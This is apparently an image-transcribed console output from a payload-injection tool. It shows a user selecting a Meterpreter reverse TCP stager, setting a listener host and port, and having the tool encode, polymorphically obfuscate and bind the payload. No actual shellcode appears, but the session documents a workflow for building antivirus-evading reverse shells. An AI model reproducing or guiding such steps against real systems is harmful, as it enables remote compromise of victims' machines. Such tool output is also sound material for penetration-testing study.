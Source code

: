 ```
[4] Meterpreter_Bind_TCP      [stager]
[5] Shell_Reverse_TCP         [stager]
[6] Shell_Bind_TCP            [stager]
[7] WinExec

Use a listed payload or custom? (L/C/H): L

Select payload by index: 1

***************************
* meterpreter_reverse_tcp *
***************************

SET LHOST: 192.168.213.128

SET LPORT: 1234



****************
* Payload Info *
****************

Payload: meterpreter_reverse_tcp

Size: 281 bytes

Reflective Loader: NO

Encoded-Payload Handling: Enabled

Handler Type: IAT



******************
* Encoding Stage *
******************

Encoding Payload: Done!


****************************
* Assembling Decoder Stage *
****************************

Assembling Decoder: Done!


***********************************
* Binding Decoder & Payload Stage *
***********************************

Status: Obfuscating the Decoder using Thread Context Aware Polymorphic
        code, and binding it with the payload.

Please wait...

Binding: Done!


*********************
* IAT Handler Stage *
```